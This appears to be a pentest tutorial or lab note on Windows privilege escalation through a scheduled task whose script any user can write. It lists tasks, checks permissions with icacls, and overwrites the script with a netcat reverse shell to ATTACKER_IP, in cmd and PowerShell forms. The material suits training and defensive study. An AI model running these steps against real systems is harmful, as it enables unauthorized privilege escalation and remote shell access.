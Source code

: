 # Scheduled Tasks

## Check for a Vuln Schtask

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```powershell
schtasks # list all schtasks
schtasks /query /fo LIST /v
schtasks /query /tn $TASK_NAME /fo list /v # get info about one task

# output
Folder: \
HostName:                             PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

You will get lots of information about the task, but what matters for us is the "`Task to Run`" parameter which indicates what gets executed by the scheduled task, and the "`Run As User`" parameter, which shows the user that will be used to execute the task.

## Change schtask script

If our user can change the "`Task to Run`" executable, we can decide what the `taskusr1` user runs, leading to easy privilege escalation. Use `icacls` to check the file permissions on the executable:

```powershell
icacls c:\tasks\schtask.bat

# output 
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

We can see that the **BUILTIN\Users** group has full access (F) to the task's binary file. This allows us to modify the .bat file and add any payload we want. You can find `nc64.exe` in `C:\tools`. Let's modify the .bat file to create a reverse shell:

{% code title="cmd" overflow="wrap" %}
```powershell
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
{% endcode %}

{% code title="PowerShell" overflow="wrap" %}
```powershell
Set-Content -Path "C:\tasks\schtask.bat" -Value 'c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444'
```
{% endcode %}

To manually run the scheduled task with taskusr1 privileges and get a reverse shell, use this command:

```
schtasks /run /tn vulntask
```

\


